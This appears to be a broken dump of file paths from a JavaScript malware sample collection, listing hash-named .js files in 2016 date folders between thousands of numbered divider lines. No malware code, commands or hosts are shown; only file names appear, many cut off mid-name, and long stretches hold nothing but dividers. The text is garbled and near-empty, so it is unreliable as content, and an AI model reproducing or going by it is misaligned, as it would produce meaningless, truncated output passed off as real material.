javascript-malware-collection-master\2016\20160519\20160519_2550cacb4bb73c76c9dddc64d53ec247.js
=========================================51955===========================================
javascript-malware-collection-master\2016\20160519\20160519_25604bb9769e5154e619201ae2171d2c.js
=========================================51956===========================================
javascript-malware-collection-master\2016\20160519\20160519_2607365189d423afbc3a5420531122fd.js
=========================================51957===========================================
javascript-malware-collection-master\2016\20160519\20160519_2622dd36af2098d4194d18895527a2d3.js
=========================================51958===========================================
=========================================51959===========================================
javascript-malware-collection-master\2016\20160519\20160519_275174cb1281981d

=========================================52010===========================================
javascript-malware-collection-master\2016\20160519\20160519_4816b02e6674aa8cf124397f17bd7194.js
=========================================52011===========================================
javascript-malware-collection-master\2016\20160519\20160519_4925b5cf788a38e769afd615ae926b5f.js
=========================================52012===========================================
javascript-malware-collection-master\2016\20160519\20160519_492cd8f56ff9b4c759985b1f9528ba57.js
=========================================52013===========================================
javascript-malware-collection-master\2016\20160519\20160519_49379eecbf69bc8ec27e8b3ca3600dd1.js
=========================================52014===========================================
javascript-malware-collection-master\2016\20160519\20160519_4a5badb211a86b39fe24180cc1f73f67.js
=========================================52015========================

=========================================52065===========================================
javascript-malware-collection-master\2016\20160519\20160519_6f3cb9c930d968531983bf27a1d8440f.js
=========================================52066===========================================
javascript-malware-collection-master\2016\20160519\20160519_6fe4cd3328eee3f99adc73dd121f900a.js
=========================================52067===========================================
javascript-malware-collection-master\2016\20160519\20160519_6feeb71e86faa7681e1b5201ba2d4a8c.js
=========================================52068===========================================
=========================================52069===========================================
javascript-malware-collection-master\2016\20160519\20160519_720dc4a08977ef220fd47b9bb2cec4f3.js
=========================================52070===========================================
javascript-malware-collection-master\2016\20160519\20160519_7391a53f57d4e1d7

javascript-malware-collection-master\2016\20160519\20160519_8d1720e185b08eda5539cda62fa622fa.js
=========================================52118===========================================
javascript-malware-collection-master\2016\20160519\20160519_8d3f010d3bd94d3f85280e59655f5a23.js
=========================================52119===========================================
javascript-malware-collection-master\2016\20160519\20160519_8d4ebf7f5436391544b458697c218e41.js
=========================================52120===========================================
javascript-malware-collection-master\2016\20160519\20160519_8e0c681ec79f83c7d63060ade8c466a8.js
=========================================52121===========================================
javascript-malware-collection-master\2016\20160519\20160519_8ea9070e6902e3da6ebc1aabeb6964d5.js
=========================================52122===========================================
=========================================52123========================

=========================================52166===========================================
javascript-malware-collection-master\2016\20160519\20160519_aa986379480a00fdad71be3d90a91ca3.js
=========================================52167===========================================
javascript-malware-collection-master\2016\20160519\20160519_aaa0fa821fb52267d455a2316aebf74d.js
=========================================52168===========================================
javascript-malware-collection-master\2016\20160519\20160519_ab70a9f64819f8253a3bbb4a24f427c4.js
=========================================52169===========================================
javascript-malware-collection-master\2016\20160519\20160519_abbabe383e9bf4a8cedcf1514e745075.js
=========================================52170===========================================
javascript-malware-collection-master\2016\20160519\20160519_ac0b4772284985715f0674f7f18c6843.js
=========================================52171========================

=========================================52229===========================================
javascript-malware-collection-master\2016\20160519\20160519_d46c5c5ad16287fd2c84ce6749c9c33a.js
=========================================52230===========================================
javascript-malware-collection-master\2016\20160519\20160519_d46cc07b907a28826791c01071bac0cb.js
=========================================52231===========================================
javascript-malware-collection-master\2016\20160519\20160519_d50f0c5e167e7b9ff8a47c71a625ecf2.js
=========================================52232===========================================
javascript-malware-collection-master\2016\20160519\20160519_d54846b50b9c5900743de6cf9f3a15ff.js
=========================================52233===========================================
javascript-malware-collection-master\2016\20160519\20160519_d5ef42d66ff70e3e61f1262aae460566.js
=========================================52234========================

javascript-malware-collection-master\2016\20160519\20160519_fd1ac2dcc5c415b286945b2bdb01ee41.js
=========================================52308===========================================
javascript-malware-collection-master\2016\20160519\20160519_fd6bc143bba5aa16644774eba730b10d.js
=========================================52309===========================================
javascript-malware-collection-master\2016\20160519\20160519_fd9cf58e0d745ecdaeeb4213a5b23d63.js
=========================================52310===========================================
javascript-malware-collection-master\2016\20160519\20160519_fe21a5e2d7a093929f4b1372dd15d6f6.js
=========================================52311===========================================
javascript-malware-collection-master\2016\20160519\20160519_fe6879540433cdb056042199b9dd552f.js
=========================================52312===========================================
javascript-malware-collection-master\2016\20160519\20160519_ff58f37070

=========================================52370===========================================
javascript-malware-collection-master\2016\20160520\20160520_182ed4c77a32830b8b409882ace6e47a.js
=========================================52371===========================================
javascript-malware-collection-master\2016\20160520\20160520_18eec7ff92f2af824b0bdc6913ef8ed7.js
=========================================52372===========================================
javascript-malware-collection-master\2016\20160520\20160520_18fed270a8a18fffda4d1ec7306574f2.js
=========================================52373===========================================
javascript-malware-collection-master\2016\20160520\20160520_19b4f262b1b0714d12c00d91e67f0eec.js
=========================================52374===========================================
javascript-malware-collection-master\2016\20160520\20160520_1a345fe52a0db23490c0a5ac394bf33b.js
=========================================52375========================

javascript-malware-collection-master\2016\20160520\20160520_2ef0ba5c01b670f95338dc9492beb7a6.js
=========================================52425===========================================
javascript-malware-collection-master\2016\20160520\20160520_2ef2b4c5d9117c66691b702b1aab99cb.js
=========================================52426===========================================
javascript-malware-collection-master\2016\20160520\20160520_2efc698df5528db2d95588a5cd42e960.js
=========================================52427===========================================
javascript-malware-collection-master\2016\20160520\20160520_30c974de6fa21e91b7c169536a05f18e.js
=========================================52428===========================================
javascript-malware-collection-master\2016\20160520\20160520_3113b8f5bfa9cd278c5d0927e6f77301.js
=========================================52429===========================================
javascript-malware-collection-master\2016\20160520\20160520_3142589b52

=========================================52484===========================================
javascript-malware-collection-master\2016\20160520\20160520_5025aa8e954f7c3db9463fd622ff1bd4.js
=========================================52485===========================================
javascript-malware-collection-master\2016\20160520\20160520_506508f0572fb4bae8c2eee70cd19dd2.js
=========================================52486===========================================
javascript-malware-collection-master\2016\20160520\20160520_50cecf2e7c47d6321cd777437bbb1200.js
=========================================52487===========================================
javascript-malware-collection-master\2016\20160520\20160520_51bab0310cc4e4836d81f4dc9113d515.js
=========================================52488===========================================
javascript-malware-collection-master\2016\20160520\20160520_51e5f95acb245e11f66c3c412939c4e4.js
=========================================52489========================

=========================================52546===========================================
javascript-malware-collection-master\2016\20160520\20160520_7505a4e0e0182ed2a41f91abebab72e6.js
=========================================52547===========================================
javascript-malware-collection-master\2016\20160520\20160520_7555ac07f3235108b4158880158383bb.js
=========================================52548===========================================
=========================================52549===========================================
javascript-malware-collection-master\2016\20160520\20160520_7747f90ee9ee0e8d0a728c0915dc0165.js
=========================================52550===========================================
javascript-malware-collection-master\2016\20160520\20160520_786221f084ed896c32819ae1e77e7c61.js
=========================================52551===========================================
javascript-malware-collection-master\2016\20160520\20160520_7980013268a15921

javascript-malware-collection-master\2016\20160520\20160520_9dde39eae0a831e749c22e99013f4bb6.js
=========================================52604===========================================
=========================================52605===========================================
javascript-malware-collection-master\2016\20160520\20160520_9e1f7c1546da2f4aa46c542450140766.js
=========================================52606===========================================
javascript-malware-collection-master\2016\20160520\20160520_9eb95389a141fcead1042c5f5babebaa.js
=========================================52607===========================================
javascript-malware-collection-master\2016\20160520\20160520_9edc9597218f2ea4fca64225ee9f202e.js
=========================================52608===========================================
javascript-malware-collection-master\2016\20160520\20160520_9ef85c746c17fc6eaa879b38193c923e.js
=========================================52609========================

javascript-malware-collection-master\2016\20160520\20160520_bbb7bca9bb0487e5920d14a9a99704c1.js
=========================================52663===========================================
javascript-malware-collection-master\2016\20160520\20160520_bcd3dff59fe3ed7edbd1bd6e59ddc434.js
=========================================52664===========================================
javascript-malware-collection-master\2016\20160520\20160520_bcfcdfad9dab565b288a5a26a4fb142b.js
=========================================52665===========================================
javascript-malware-collection-master\2016\20160520\20160520_c0182ab7844c443a2b139d609b578a90.js
=========================================52666===========================================
=========================================52667===========================================
javascript-malware-collection-master\2016\20160520\20160520_c1e17ed75ab76275a238e7379c2191ac.js
=========================================52668========================

=========================================52726===========================================
javascript-malware-collection-master\2016\20160520\20160520_e5fc4299e4bfb8b563ad77ffc4c7a086.js
=========================================52727===========================================
=========================================52728===========================================
=========================================52729===========================================
=========================================52730===========================================
javascript-malware-collection-master\2016\20160520\20160520_e7ba9fea483da593edc9a4e98fdbf66b.js
=========================================52731===========================================
=========================================52732===========================================
=========================================52733===========================================
javascript-malware-collection-master\2016\20160520\20160520_ea6699f1ccbb14ec43ba78f68366

=========================================52798===========================================
=========================================52799===========================================
=========================================52800===========================================
=========================================52801===========================================
=========================================52802===========================================
=========================================52803===========================================
=========================================52804===========================================
=========================================52805===========================================
=========================================52806===========================================
=========================================52807===========================================
=========================================52808===========================================
==========

=========================================52892===========================================
=========================================52893===========================================
=========================================52894===========================================
=========================================52895===========================================
=========================================52896===========================================
=========================================52897===========================================
=========================================52898===========================================
=========================================52899===========================================
=========================================52900===========================================
=========================================52901===========================================
=========================================52902===========================================
==========

=========================================52985===========================================
=========================================52986===========================================
=========================================52987===========================================
=========================================52988===========================================
=========================================52989===========================================
=========================================52990===========================================
=========================================52991===========================================
=========================================52992===========================================
=========================================52993===========================================
=========================================52994===========================================
=========================================52995===========================================
==========

=========================================53080===========================================
=========================================53081===========================================
=========================================53082===========================================
=========================================53083===========================================
=========================================53084===========================================
=========================================53085===========================================
=========================================53086===========================================
=========================================53087===========================================
=========================================53088===========================================
=========================================53089===========================================
=========================================53090===========================================
==========

=========================================53176===========================================
=========================================53177===========================================
=========================================53178===========================================
=========================================53179===========================================
=========================================53180===========================================
=========================================53181===========================================
=========================================53182===========================================
=========================================53183===========================================
=========================================53184===========================================
=========================================53185===========================================
=========================================53186===========================================
==========

=========================================53272===========================================
=========================================53273===========================================
=========================================53274===========================================
=========================================53275===========================================
=========================================53276===========================================
=========================================53277===========================================
=========================================53278===========================================
=========================================53279===========================================
=========================================53280===========================================
=========================================53281===========================================
=========================================53282===========================================
==========

=========================================53328===========================================
javascript-malware-collection-master\2016\20160524\20160524_49ab999c0585eb1be81a42ef32ec9a27.js
=========================================53329===========================================
javascript-malware-collection-master\2016\20160524\20160524_49e3ceacf6f094aedd0416d505a242ce.js
=========================================53330===========================================
=========================================53331===========================================
=========================================53332===========================================
javascript-malware-collection-master\2016\20160524\20160524_51b8605a3a4ab027c0ed2e267ba37503.js
=========================================53333===========================================
javascript-malware-collection-master\2016\20160524\20160524_51c35a121aa63286121e4479dbca16de.js
=========================================53334==============================

javascript-malware-collection-master\2016\20160524\20160524_a590d452c784b98e771bf5bfc9ef499b.js
=========================================53381===========================================
javascript-malware-collection-master\2016\20160524\20160524_a5d10931711a1537a3537a4e162ec72b.js
=========================================53382===========================================
javascript-malware-collection-master\2016\20160524\20160524_ab4d75ba4928e21840d14a1298ddea51.js
=========================================53383===========================================
javascript-malware-collection-master\2016\20160524\20160524_b022e3eebf3f95d1c3b78ec2ce0ea221.js
=========================================53384===========================================
javascript-malware-collection-master\2016\20160524\20160524_b0a04dd9ab6bf5d6792b6427ee4c7d56.js
=========================================53385===========================================
=========================================53386========================

javascript-malware-collection-master\2016\20160525\20160525_0717ebfcbb76513a65ac6677bdfd1c00.js
=========================================53441===========================================
javascript-malware-collection-master\2016\20160525\20160525_075a0aa99298d91cc6b00d10ad59647d.js
=========================================53442===========================================
javascript-malware-collection-master\2016\20160525\20160525_08159a8e4482e4802d9526281ae86cbe.js
=========================================53443===========================================
=========================================53444===========================================
=========================================53445===========================================
javascript-malware-collection-master\2016\20160525\20160525_09e98de543e75cd8999f2c36e1917832.js
=========================================53446===========================================
javascript-malware-collection-master\2016\20160525\20160525_0a0cab9603898885

javascript-malware-collection-master\2016\20160525\20160525_248e77de2789602108778c6fffe1d4a9.js
=========================================53509===========================================
=========================================53510===========================================
=========================================53511===========================================
javascript-malware-collection-master\2016\20160525\20160525_260eff272b9d42aae12711895c50aedd.js
=========================================53512===========================================
=========================================53513===========================================
=========================================53514===========================================
=========================================53515===========================================
=========================================53516===========================================
=========================================53517==========================================

=========================================53583===========================================
=========================================53584===========================================
=========================================53585===========================================
javascript-malware-collection-master\2016\20160525\20160525_455e11d7cfd4341e7b026ed3ed1385ff.js
=========================================53586===========================================
=========================================53587===========================================
=========================================53588===========================================
javascript-malware-collection-master\2016\20160525\20160525_4af44f2aff6ff5fd72e9222b8c050a4c.js
=========================================53589===========================================
=========================================53590===========================================
=========================================53591==========================================

=========================================53651===========================================
javascript-malware-collection-master\2016\20160525\20160525_641ac5758ceb51e3bf3107a15f6d157b.js
=========================================53652===========================================
=========================================53653===========================================
=========================================53654===========================================
=========================================53655===========================================
=========================================53656===========================================
=========================================53657===========================================
javascript-malware-collection-master\2016\20160525\20160525_65918d9dbc1123f97f5aada80f9ad2b1.js
=========================================53658===========================================
=========================================53659==========================================

=========================================53733===========================================
javascript-malware-collection-master\2016\20160525\20160525_88db8fa59635b8659e899d7dc5e7c110.js
=========================================53734===========================================
javascript-malware-collection-master\2016\20160525\20160525_8906d45311e3a9e406279f7b844382a2.js
=========================================53735===========================================
=========================================53736===========================================
javascript-malware-collection-master\2016\20160525\20160525_8a8554ad585c02b3d2aef518eb925e8d.js
=========================================53737===========================================
=========================================53738===========================================
=========================================53739===========================================
=========================================53740====================================

=========================================53807===========================================
javascript-malware-collection-master\2016\20160525\20160525_ad8c301bf8100f2db4612ab882c90ebd.js
=========================================53808===========================================
=========================================53809===========================================
javascript-malware-collection-master\2016\20160525\20160525_ae5ca74d1373f233b1c5f3a5bbc84566.js
=========================================53810===========================================
=========================================53811===========================================
=========================================53812===========================================
javascript-malware-collection-master\2016\20160525\20160525_af99f12545d73b3d637888fdad83cd2d.js
=========================================53813===========================================
=========================================53814====================================

=========================================53876===========================================
=========================================53877===========================================
=========================================53878===========================================
=========================================53879===========================================
=========================================53880===========================================
javascript-malware-collection-master\2016\20160525\20160525_cf6b0e2654ab84ae1a8394ecc5456647.js
=========================================53881===========================================
javascript-malware-collection-master\2016\20160525\20160525_d05d16f4dfae5bd2ea03e5aa505d6eb7.js
=========================================53882===========================================
=========================================53883===========================================
=========================================53884==========================================

=========================================53950===========================================
javascript-malware-collection-master\2016\20160525\20160525_f1e659fcbfd910c48d514d5710d64f5c.js
=========================================53951===========================================
=========================================53952===========================================
=========================================53953===========================================
=========================================53954===========================================
=========================================53955===========================================
=========================================53956===========================================
javascript-malware-collection-master\2016\20160525\20160525_f49c2efa824c9fdd4bacd536005ae750.js
=========================================53957===========================================
=========================================53958==========================================

=========================================54026===========================================
javascript-malware-collection-master\2016\20160526\20160526_169bc0911d74ae306d753a4af29ac0b2.js
=========================================54027===========================================
javascript-malware-collection-master\2016\20160526\20160526_170c56a6a7a0fcb05ee76a59d875b97d.js
=========================================54028===========================================
javascript-malware-collection-master\2016\20160526\20160526_1748b46737b711a47d543282af94498d.js
=========================================54029===========================================
=========================================54030===========================================
javascript-malware-collection-master\2016\20160526\20160526_185c52a1f24cf6dab6cdb9eef92b97e3.js
=========================================54031===========================================
javascript-malware-collection-master\2016\20160526\20160526_187a65bdef7ca457

=========================================54082===========================================
javascript-malware-collection-master\2016\20160526\20160526_350409112f8d844c12ce3b235400a90f.js
=========================================54083===========================================
javascript-malware-collection-master\2016\20160526\20160526_350af3d6529bc8b24161da7b9ce864dc.js
=========================================54084===========================================
javascript-malware-collection-master\2016\20160526\20160526_354c2f6cc9563f833ab937001fd328b7.js
=========================================54085===========================================
=========================================54086===========================================
javascript-malware-collection-master\2016\20160526\20160526_35d50b74ed8d38be4e12f938e0d6ecdd.js
=========================================54087===========================================
javascript-malware-collection-master\2016\20160526\20160526_3659acf5279ec547

=========================================54140===========================================
javascript-malware-collection-master\2016\20160526\20160526_4dc207a1a3efc2c9befd992a99b34a1e.js
=========================================54141===========================================
javascript-malware-collection-master\2016\20160526\20160526_4e08c17cce72962f3b4bdc47e42f42f4.js
=========================================54142===========================================
javascript-malware-collection-master\2016\20160526\20160526_4e53ef302159f7be58ed899228ff8c1b.js
=========================================54143===========================================
javascript-malware-collection-master\2016\20160526\20160526_4eae6cb355b7338ba873159eb4488e73.js
=========================================54144===========================================
javascript-malware-collection-master\2016\20160526\20160526_4f26df73df47a94c661ad9f68591fe15.js
=========================================54145========================

=========================================54194===========================================
=========================================54195===========================================
javascript-malware-collection-master\2016\20160526\20160526_648d5c4558ee3c0a95174d2e77dee141.js
=========================================54196===========================================
javascript-malware-collection-master\2016\20160526\20160526_64d6749fcd67407c5bec7fa38a77c857.js
=========================================54197===========================================
=========================================54198===========================================
javascript-malware-collection-master\2016\20160526\20160526_660061991819e3013105f8271495bb16.js
=========================================54199===========================================
javascript-malware-collection-master\2016\20160526\20160526_665d7b9ae30e8d32cb1e945be2f0aa77.js
=========================================54200==============================

=========================================54258===========================================
=========================================54259===========================================
=========================================54260===========================================
javascript-malware-collection-master\2016\20160526\20160526_801f47f3a25e07dfd26e37be475749b4.js
=========================================54261===========================================
=========================================54262===========================================
=========================================54263===========================================
javascript-malware-collection-master\2016\20160526\20160526_80c64b99f876330ec7d081837f83b2d8.js
=========================================54264===========================================
=========================================54265===========================================
javascript-malware-collection-master\2016\20160526\20160526_811b567b6a2677753c24daa9081d

javascript-malware-collection-master\2016\20160526\20160526_92a00647a37ac241feb3280314846226.js
=========================================54312===========================================
=========================================54313===========================================
javascript-malware-collection-master\2016\20160526\20160526_933a86455c82a52d6f5027ea25598c6b.js
=========================================54314===========================================
=========================================54315===========================================
javascript-malware-collection-master\2016\20160526\20160526_947021552b4cafb05a0607858a1d40fc.js
=========================================54316===========================================
=========================================54317===========================================
javascript-malware-collection-master\2016\20160526\20160526_94a1b960b2f6f0681766bf11de5ba150.js
=========================================54318==============================

javascript-malware-collection-master\2016\20160526\20160526_abc56d5696e8b7a7cfae6e1f66bad77d.js
=========================================54365===========================================
javascript-malware-collection-master\2016\20160526\20160526_ac83f798ffaded150f10df278f31ce0b.js
=========================================54366===========================================
javascript-malware-collection-master\2016\20160526\20160526_ac9dcfb7d7213afca629fb6c56efd50e.js
=========================================54367===========================================
=========================================54368===========================================
javascript-malware-collection-master\2016\20160526\20160526_ad32bf577eab727eeaf3a09889b25590.js
=========================================54369===========================================
javascript-malware-collection-master\2016\20160526\20160526_ad7a0a9fc298529702ee134cdf343958.js
=========================================54370========================

=========================================54415===========================================
javascript-malware-collection-master\2016\20160526\20160526_c63400b6f98acb492c9bac4550f2b5b1.js
=========================================54416===========================================
javascript-malware-collection-master\2016\20160526\20160526_c668001f0b8b36d611114f562c5a08e8.js
=========================================54417===========================================
javascript-malware-collection-master\2016\20160526\20160526_c6844d2f839e2f4269643d2b1161c3ce.js
=========================================54418===========================================
javascript-malware-collection-master\2016\20160526\20160526_c68fa0f755ddae4172af502aea655b5d.js
=========================================54419===========================================
=========================================54420===========================================
javascript-malware-collection-master\2016\20160526\20160526_c72e5ad8c36cf751

=========================================54473===========================================
javascript-malware-collection-master\2016\20160526\20160526_de644efa586263462cde642178a18f07.js
=========================================54474===========================================
javascript-malware-collection-master\2016\20160526\20160526_dec0ba8fcb6c0d16927f95435cff0ba1.js
=========================================54475===========================================
=========================================54476===========================================
javascript-malware-collection-master\2016\20160526\20160526_df9c59f44bdd25ffb562191abccdb60e.js
=========================================54477===========================================
=========================================54478===========================================
javascript-malware-collection-master\2016\20160526\20160526_e26c2aaf77fa53a2b4ee7f5d992ff0e2.js
=========================================54479==============================

=========================================54534===========================================
javascript-malware-collection-master\2016\20160526\20160526_f86fff567a4be86c8c3a75cdf8bc54e5.js
=========================================54535===========================================
javascript-malware-collection-master\2016\20160526\20160526_f90c3ddcd3ba0220f04652eaa3f069e3.js
=========================================54536===========================================
javascript-malware-collection-master\2016\20160526\20160526_f954edf3a96799595970876afd62b8b7.js
=========================================54537===========================================
javascript-malware-collection-master\2016\20160526\20160526_f968b41c4edd44c16f90fad3db9a92af.js
=========================================54538===========================================
=========================================54539===========================================
=========================================54540==============================

=========================================54614===========================================
=========================================54615===========================================
=========================================54616===========================================
=========================================54617===========================================
=========================================54618===========================================
=========================================54619===========================================
=========================================54620===========================================
=========================================54621===========================================
=========================================54622===========================================
=========================================54623===========================================
=========================================54624===========================================
==========

=========================================54708===========================================
=========================================54709===========================================
=========================================54710===========================================
=========================================54711===========================================
=========================================54712===========================================
=========================================54713===========================================
=========================================54714===========================================
=========================================54715===========================================
=========================================54716===========================================
=========================================54717===========================================
=========================================54718===========================================
==========

=========================================54798===========================================
=========================================54799===========================================
=========================================54800===========================================
=========================================54801===========================================
=========================================54802===========================================
=========================================54803===========================================
=========================================54804===========================================
=========================================54805===========================================
=========================================54806===========================================
=========================================54807===========================================
=========================================54808===========================================
==========

=========================================54894===========================================
=========================================54895===========================================
=========================================54896===========================================
=========================================54897===========================================
=========================================54898===========================================
=========================================54899===========================================
=========================================54900===========================================
=========================================54901===========================================
=========================================54902===========================================
=========================================54903===========================================
=========================================54904===========================================
==========

=========================================54992===========================================
=========================================54993===========================================
=========================================54994===========================================
=========================================54995===========================================
=========================================54996===========================================
=========================================54997===========================================
=========================================54998===========================================
=========================================54999===========================================
=========================================55000===========================================
=========================================55001===========================================
=========================================55002===========================================
==========

=========================================55085===========================================
=========================================55086===========================================
=========================================55087===========================================
=========================================55088===========================================
=========================================55089===========================================
=========================================55090===========================================
=========================================55091===========================================
=========================================55092===========================================
=========================================55093===========================================
=========================================55094===========================================
=========================================55095===========================================
==========

=========================================55180===========================================
=========================================55181===========================================
=========================================55182===========================================
=========================================55183===========================================
=========================================55184===========================================
=========================================55185===========================================
=========================================55186===========================================
=========================================55187===========================================
=========================================55188===========================================
=========================================55189===========================================
=========================================55190===========================================
==========

=========================================55275===========================================
=========================================55276===========================================
=========================================55277===========================================
=========================================55278===========================================
=========================================55279===========================================
=========================================55280===========================================
=========================================55281===========================================
=========================================55282===========================================
=========================================55283===========================================
=========================================55284===========================================
=========================================55285===========================================
==========

=========================================55371===========================================
=========================================55372===========================================
=========================================55373===========================================
=========================================55374===========================================
=========================================55375===========================================
=========================================55376===========================================
=========================================55377===========================================
=========================================55378===========================================
=========================================55379===========================================
=========================================55380===========================================
=========================================55381===========================================
==========

=========================================55463===========================================
=========================================55464===========================================
=========================================55465===========================================
=========================================55466===========================================
=========================================55467===========================================
=========================================55468===========================================
=========================================55469===========================================
=========================================55470===========================================
=========================================55471===========================================
=========================================55472===========================================
=========================================55473===========================================
==========

=========================================55556===========================================
=========================================55557===========================================
=========================================55558===========================================
=========================================55559===========================================
=========================================55560===========================================
=========================================55561===========================================
=========================================55562===========================================
=========================================55563===========================================
=========================================55564===========================================
=========================================55565===========================================
=========================================55566===========================================
==========

=========================================55652===========================================
=========================================55653===========================================
=========================================55654===========================================
=========================================55655===========================================
=========================================55656===========================================
=========================================55657===========================================
=========================================55658===========================================
=========================================55659===========================================
=========================================55660===========================================
=========================================55661===========================================
=========================================55662===========================================
==========

=========================================55745===========================================
=========================================55746===========================================
=========================================55747===========================================
=========================================55748===========================================
=========================================55749===========================================
=========================================55750===========================================
=========================================55751===========================================
=========================================55752===========================================
=========================================55753===========================================
=========================================55754===========================================
=========================================55755===========================================
==========

=========================================55839===========================================
=========================================55840===========================================
=========================================55841===========================================
=========================================55842===========================================
=========================================55843===========================================
=========================================55844===========================================
=========================================55845===========================================
=========================================55846===========================================
=========================================55847===========================================
=========================================55848===========================================
=========================================55849===========================================
==========

=========================================55931===========================================
=========================================55932===========================================
=========================================55933===========================================
=========================================55934===========================================
=========================================55935===========================================
=========================================55936===========================================
=========================================55937===========================================
=========================================55938===========================================
=========================================55939===========================================
=========================================55940===========================================
=========================================55941===========================================
==========

=========================================56023===========================================
=========================================56024===========================================
=========================================56025===========================================
=========================================56026===========================================
=========================================56027===========================================
=========================================56028===========================================
=========================================56029===========================================
=========================================56030===========================================
=========================================56031===========================================
=========================================56032===========================================
=========================================56033===========================================
==========

=========================================56115===========================================
=========================================56116===========================================
=========================================56117===========================================
=========================================56118===========================================
=========================================56119===========================================
=========================================56120===========================================
=========================================56121===========================================
=========================================56122===========================================
=========================================56123===========================================
=========================================56124===========================================
=========================================56125===========================================
==========

=========================================56207===========================================
=========================================56208===========================================
=========================================56209===========================================
=========================================56210===========================================
=========================================56211===========================================
=========================================56212===========================================
=========================================56213===========================================
=========================================56214===========================================
=========================================56215===========================================
=========================================56216===========================================
=========================================56217===========================================
==========

=========================================56299===========================================
=========================================56300===========================================
=========================================56301===========================================
=========================================56302===========================================
=========================================56303===========================================
=========================================56304===========================================
=========================================56305===========================================
=========================================56306===========================================
=========================================56307===========================================
=========================================56308===========================================
=========================================56309===========================================
==========

=========================================56391===========================================
=========================================56392===========================================
=========================================56393===========================================
=========================================56394===========================================
=========================================56395===========================================
=========================================56396===========================================
=========================================56397===========================================
=========================================56398===========================================
=========================================56399===========================================
=========================================56400===========================================
=========================================56401===========================================
==========

=========================================56483===========================================
=========================================56484===========================================
=========================================56485===========================================
=========================================56486===========================================
=========================================56487===========================================
=========================================56488===========================================
=========================================56489===========================================
=========================================56490===========================================
=========================================56491===========================================
=========================================56492===========================================
=========================================56493===========================================
==========

=========================================56575===========================================
=========================================56576===========================================
=========================================56577===========================================
=========================================56578===========================================
=========================================56579===========================================
=========================================56580===========================================
=========================================56581===========================================
=========================================56582===========================================
=========================================56583===========================================
=========================================56584===========================================
=========================================56585===========================================
==========

=========================================56668===========================================
=========================================56669===========================================
=========================================56670===========================================
=========================================56671===========================================
=========================================56672===========================================
=========================================56673===========================================
=========================================56674===========================================
=========================================56675===========================================
=========================================56676===========================================
=========================================56677===========================================
=========================================56678===========================================
==========

=========================================56762===========================================
=========================================56763===========================================
=========================================56764===========================================
=========================================56765===========================================
=========================================56766===========================================
=========================================56767===========================================
=========================================56768===========================================
=========================================56769===========================================
=========================================56770===========================================
=========================================56771===========================================
=========================================56772===========================================
==========

=========================================56855===========================================
=========================================56856===========================================
=========================================56857===========================================
=========================================56858===========================================
=========================================56859===========================================
=========================================56860===========================================
=========================================56861===========================================
=========================================56862===========================================
=========================================56863===========================================
=========================================56864===========================================
=========================================56865===========================================
==========

=========================================56947===========================================
=========================================56948===========================================
=========================================56949===========================================
=========================================56950===========================================
=========================================56951===========================================
=========================================56952===========================================
=========================================56953===========================================
=========================================56954===========================================
=========================================56955===========================================
=========================================56956===========================================
=========================================56957===========================================
==========

=========================================57040===========================================
=========================================57041===========================================
javascript-malware-collection-master\2016\20160629\20160629_005d996a6d2a98d3f11b6084bb3f4f33.js
=========================================57042===========================================
javascript-malware-collection-master\2016\20160629\20160629_00dac76c44a416671f79e1c4bb613f10.js
=========================================57043===========================================
javascript-malware-collection-master\2016\20160629\20160629_0107df5e2d6371fd39d3b64783a58862.js
=========================================57044===========================================
javascript-malware-collection-master\2016\20160629\20160629_011cdd46d5ea29b81f5334fc06f7b87d.js
=========================================57045===========================================
javascript-malware-collection-master\2016\20160629\20160629_018f1f03845ea151

=========================================57094===========================================
=========================================57095===========================================
javascript-malware-collection-master\2016\20160629\20160629_1a8a3acfb2b1ee8b11e672336d073c20.js
=========================================57096===========================================
=========================================57097===========================================
=========================================57098===========================================
javascript-malware-collection-master\2016\20160629\20160629_1bf0580ca77ac820d9d3a5684c8c0773.js
=========================================57099===========================================
javascript-malware-collection-master\2016\20160629\20160629_1c5b9918ccc53214379ca18262b9b069.js
=========================================57100===========================================
javascript-malware-collection-master\2016\20160629\20160629_1cc4f51d808d74a5af57a1

javascript-malware-collection-master\2016\20160629\20160629_3d9096ba127fed58deaa7ab053905abc.js
=========================================57156===========================================
javascript-malware-collection-master\2016\20160629\20160629_3dd16587c9d81fd3e7eea69f15b2167b.js
=========================================57157===========================================
javascript-malware-collection-master\2016\20160629\20160629_3e50f2a069afc8ac4bfef0dfb8e86cf7.js
=========================================57158===========================================
=========================================57159===========================================
javascript-malware-collection-master\2016\20160629\20160629_3f8cd3d1603fe7e838e9af53d2c6fbe6.js
=========================================57160===========================================
=========================================57161===========================================
javascript-malware-collection-master\2016\20160629\20160629_4044c7929fbe33eb

javascript-malware-collection-master\2016\20160629\20160629_6513a6aa0c52cbc4aa3329f366e29e77.js
=========================================57219===========================================
javascript-malware-collection-master\2016\20160629\20160629_660919a082e902d4f47786e2ce04439c.js
=========================================57220===========================================
javascript-malware-collection-master\2016\20160629\20160629_6659e733f67cda7da8b6efae51b92236.js
=========================================57221===========================================
javascript-malware-collection-master\2016\20160629\20160629_66bd4855256880bf8260c9722e4ea7ee.js
=========================================57222===========================================
javascript-malware-collection-master\2016\20160629\20160629_66ce1498f88b907c770e18d4c433969e.js
=========================================57223===========================================
javascript-malware-collection-master\2016\20160629\20160629_69492ef8b8

=========================================57266===========================================
javascript-malware-collection-master\2016\20160629\20160629_80bcc8760034479a02775b499ba06416.js
=========================================57267===========================================
javascript-malware-collection-master\2016\20160629\20160629_81904fe61d866c7ad16ae409a141b9f1.js
=========================================57268===========================================
javascript-malware-collection-master\2016\20160629\20160629_819aa07656d1aa5c057c69d678f31b7d.js
=========================================57269===========================================
javascript-malware-collection-master\2016\20160629\20160629_8207d028117186d32865a9bc89873a56.js
=========================================57270===========================================
javascript-malware-collection-master\2016\20160629\20160629_824ebc8d334cf027f791772c34f61323.js
=========================================57271========================

=========================================57315===========================================
javascript-malware-collection-master\2016\20160629\20160629_9831a4b9a88c7b8369214034d10ed4a2.js
=========================================57316===========================================
javascript-malware-collection-master\2016\20160629\20160629_9871f1a72d58fab2dbdd922c86a23456.js
=========================================57317===========================================
=========================================57318===========================================
javascript-malware-collection-master\2016\20160629\20160629_992329d10af86e35c2d5a09a762dda89.js
=========================================57319===========================================
=========================================57320===========================================
javascript-malware-collection-master\2016\20160629\20160629_9a0196a82ee19eebeeb79416de2291f1.js
=========================================57321==============================

javascript-malware-collection-master\2016\20160629\20160629_b5ce0cb7964902713617014c4b3d8dac.js
=========================================57372===========================================
javascript-malware-collection-master\2016\20160629\20160629_b6d20116385cecf962ce92b8fae7b773.js
=========================================57373===========================================
